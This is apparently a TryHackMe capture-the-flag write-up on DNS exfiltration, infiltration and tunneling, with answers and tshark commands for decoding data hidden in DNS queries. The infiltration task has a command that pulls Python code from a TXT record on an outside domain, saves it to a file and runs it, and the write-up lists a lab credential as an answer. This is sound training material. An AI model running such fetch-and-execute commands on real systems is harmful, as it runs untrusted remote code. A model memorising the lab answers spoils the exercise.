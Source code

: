 # DNS Manipulation

## Task 2 Installation

```bash
git clone https://github.com/kleosdc/dns-exfil-infil
cd dns-exfil-infil
pip3 install -r requirements.txt
```

## Task 3 Custom Public DNS Server

{% embed url="https://www.youtube.com/watch?v=p8wbebEgtDk" %}

## Task 4 What is DNS?

#### If you were on Windows, what command could you use to query a txt record for 'youtube.com'?

{% hint style="success" %}
`nslookup -type=TXT youtube.com`
{% endhint %}

#### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

{% hint style="success" %}
`dig facebook.com TXT`
{% endhint %}

#### AAAA stores what type of IP Address along with the hostname?

{% hint style="success" %}
`IPv6`
{% endhint %}

#### Maximum characters for a DNS TXT Record is 256.

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-04-12.png>)

{% hint style="success" %}
`Nay`
{% endhint %}

#### What DNS Record provides a domain name in reverse-lookup?

{% hint style="success" %}
`PTR`
{% endhint %}

#### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2)

{% hint style="success" %}
`2.203.168.192.in-addr.arpa`
{% endhint %}

## Task 5 DNS Exfiltration

#### What is the maximum length of a DNS name?

{% embed url="https://stackoverflow.com/questions/32290167/what-is-the-maximum-length-of-a-dns-name" %}

{% hint style="success" %}
`253`
{% endhint %}

## Task 7 DNS Exfiltration - Practice

\
**\~/challenges/exfiltration/orderlist/**&#x20;

#### **ORDER-ID**: 1. What is the Transaction name?&#x20;

```bash
ssh user@10.10.246.21
cat challenges/exfiltration/orderlist/TASK
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-36-46 (1).png>)

```bash
tshark -r challenges/exfiltration/orderlist/order.pcap -Y dns \
       -T fields -e dns.qry.name | sort | uniq -c
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-45-08.png>)

```bash
python3 ~/dns-exfil-infil/packetyGrabber.py
cat order.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-49-33.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-49-48.png>)

{% hint style="success" %}
`Network Equip.`
{% endhint %}

#### **TRANSACTION**: Firewall. How much was the Firewall?

{% hint style="success" %}
`2500`
{% endhint %}

**\~/challenges/exfiltration/identify/**

#### Which file contains suspicious DNS queries?

```bash
cat challenges/exfiltration/identify/TASK
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-53-27.png>)

```bash
tshark -r challenges/exfiltration/identify/cap1.pcap -Y dns \
       -T fields -e dns.qry.name | sort | uniq -c
tshark -r challenges/exfiltration/identify/cap2.pcap -Y dns \
       -T fields -e dns.qry.name | sort | uniq -c
tshark -r challenges/exfiltration/identify/cap3pytho.pcap -Y dns \
       -T fields -e dns.qry.name | sort | uniq -c
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-55-13.png>)

{% hint style="success" %}
`cap3.pcap`
{% endhint %}

```bash
python3 ~/dns-exfil-infil/packetyGrabber.py
cat cap.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-56-42.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-05 22-56-58.png>)

{% hint style="success" %}
`administrator:s3cre7P@ssword`
{% endhint %}

## Task 8 What is DNS Infiltration?

#### What type of DNS Record is usually used to infiltrate data into a network?

{% hint style="success" %}
`TXT`
{% endhint %}

## Task 10 DNS Infiltration - Practice

#### Follow the instructions in the TASK file to complete this question.

#### Enter the output from the executed python file

```bash
dig code.badbaddoma.in TXT | egrep -o 'Ye[^"]*' > code.py
python3 dns-exfil-infil/packetySimple.py
python3 code.py
cat code.py
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 23-09-58.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-05 23-17-07.png>)

{% hint style="success" %}
`4.4.0-186-generic`
{% endhint %}

## Task 11 DNS Tunneling

#### What program was used to Tunnel HTTP over DNS?

{% hint style="success" %}
`iodine`
{% endhint %}

## Task 12 The End

#### There are 2 x 1 Month TryHackMe Voucher codes.

* "The Receipt".
  * In the screenshot of Task 7
* Request. (TXT Record)

```bash
dig badbaddoma.in TXT
```

![](<../../.gitbook/assets/Screenshot from 2022-03-05 23-19-29.png>)
